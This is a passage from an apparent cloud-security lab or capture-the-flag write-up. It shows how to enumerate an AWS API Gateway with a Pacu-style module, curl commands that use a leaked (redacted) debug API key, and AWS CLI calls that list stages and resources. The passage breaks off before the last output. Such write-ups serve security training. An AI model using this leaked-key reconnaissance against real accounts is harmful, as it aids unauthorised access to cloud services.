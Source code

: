 **Result**: You receive an email. Inside is a secret debug API key (**redacted**).

---

## 🌐 API Gateway Enumeration

Run the module:

```bash
run apigateway__enum --region us-east-1
```

**Output**:

- Found API with ID: `<api-id>`
- Errors due to `AccessDeniedException`, but disclosed path hints.

Test the API endpoint:

```bash
curl -H "x-api-key: [REDACTED]" https://<api-id>.execute-api.us-east-1.amazonaws.com/flag
```

**Response**:

```json
{"message":"Forbidden"}
```

Indicates the gateway exists and key is valid.

Get stages:

```bash
aws apigateway get-stages --rest-api-id <api-id> --region us-east-1 --profile sns
```

**Output**:

- `stageName`: `prod-<unique>`

Test with full path:

```bash
curl -H "x-api-key: [REDACTED]" https://<api-id>.execute-api.us-east-1.amazonaws.com/prod-<unique>
```

**Response**:

```json
{"message":"Missing Authentication Token"}
```

Means the endpoint is valid but the path is incomplete.

Get resources:

```bash
aws apigateway get-resources --rest-api-id <api-id> --region us-east-1 --profile sns
```

**Output**:

